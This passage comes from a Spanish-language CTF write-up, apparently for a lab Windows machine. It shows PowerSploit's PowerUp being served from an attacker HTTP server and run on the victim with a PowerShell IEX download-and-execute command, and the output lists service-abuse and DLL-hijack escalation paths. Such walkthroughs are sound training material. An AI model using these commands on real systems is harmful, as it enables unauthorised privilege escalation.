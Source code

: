 Observamos que tenemos el privilegio **SeImpersonatePrivilege** habilitado, por lo que ya sabemos tirar **Juicy Potato**; pero para cambiar un poco, vamos a descargar la siguiente utilidad para ver otra forma de escalar privilegios:

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```bash
❯ git clone https://github.com/PowerShellMafia/PowerSploit
Clonando en 'PowerSploit'...
remote: Enumerating objects: 3086, done.
remote: Total 3086 (delta 0), reused 0 (delta 0), pack-reused 3086
Recibiendo objetos: 100% (3086/3086), 10.47 MiB | 7.17 MiB/s, listo.
Resolviendo deltas: 100% (1809/1809), listo.
❯ cd PowerSploit/Privesc/
❯ ll
.rw-r--r-- root root  26 KB Fri Sep 17 16:05:06 2021  Get-System.ps1
.rw-r--r-- root root 586 KB Fri Sep 17 16:05:06 2021  PowerUp.ps1
.rw-r--r-- root root 1.6 KB Fri Sep 17 16:05:06 2021  Privesc.psd1
.rw-r--r-- root root  67 B  Fri Sep 17 16:05:06 2021  Privesc.psm1
.rw-r--r-- root root 4.5 KB Fri Sep 17 16:05:06 2021  README.md
```

Abrimos el archivo `PowerUp.ps1` y al final agregamos la siguiente linea:

```bash
Invoke-AllChecks
```

Nos compartimos un servidor HTTP con python y procedemos a descargar el archivo a la máquina víctima:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [17/Sep/2021 16:11:59] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

```bash
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerUp.ps1")                                               [4/4]
                                
                                
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2512
ProcessId   : 1108    
Name        : 1108                                              
Check       : Process Token Privileges
                                                                
ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem                                     
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True                                                                                                             
Name          : UsoSvc                                          
Check         : Modifiable Services                                                                                              
                                                                                                                                 
ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc  
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}                                         
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks       
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```